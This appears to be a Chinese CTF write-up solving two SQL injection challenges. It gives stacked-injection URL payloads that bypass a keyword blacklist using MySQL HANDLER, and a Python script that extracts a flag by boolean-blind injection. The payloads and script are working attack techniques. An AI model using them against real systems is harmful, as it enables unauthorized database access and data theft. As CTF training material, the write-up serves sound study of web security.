 

## [GYCTF2020]Blacklist

很多都过滤了，select也过滤掉了。只能使用堆叠注入了。

查数据库名：

```mysql
?inject=';show+databases;%23
```

<img src="https://s2.loli.net/2022/12/30/OtwEg3l9mebfHjn.png" alt="image-20221230190147354" style="zoom: 25%;" />

查询表名：

<img src="https://s2.loli.net/2022/12/30/46KF1tCXSfJlydr.png" alt="image-20221230190234896" style="zoom:33%;" />

查询表 FlagHere 的列名：

```mysql
?inject=';show+columns+from+FlagHere;%23
```

<img src="https://s2.loli.net/2022/12/30/HWsPklyxOIbhXur.png" alt="image-20221230190325044" style="zoom:25%;" />

发现flag在表 FlagHere 的flag字段下。

但是select都被过滤了。我们可以使用不用select查询数据的方法，预编译prepare，handler等。

但是 prepare被过滤了。我们只能使用 mysql中 `handler`了：

```mysql
?inject=';handler+FlagHere+open;handler+FlagHere+read+first;handler+FlagHere+close;%23
```

<img src="https://s2.loli.net/2022/12/30/dtnxViy7ZbEg3vJ.png" alt="image-20221230185955397" style="zoom:33%;" />



## [CISCN2019 华北赛区 Day2 Web1]Hack World

```python
import time
import requests


def blind_injection(url):
    flag = ''
    strings = "-{abcdefghijklmnopqrstuvwxyz0123456789}"
    for num in range(1, 60):
        for i in strings:
            payload = '(select(ascii(mid(flag,{0},1))={1})from(flag))'.format(num, ord(i))
            post_data = {"id": payload}
            res = requests.post(url=url, data=post_data)
            time.sleep(0.1)
            if 'Hello' in res.text:
                flag += i
                print(flag)
            else:
                continue
    print(flag)


if __name__ == '__main__':
    url = 'http://cefdf5c8-74b2-40e1-a7c2-3a5b4e5f93d6.node4.buuoj.cn:81/index.php'
    blind_injection(url)
```
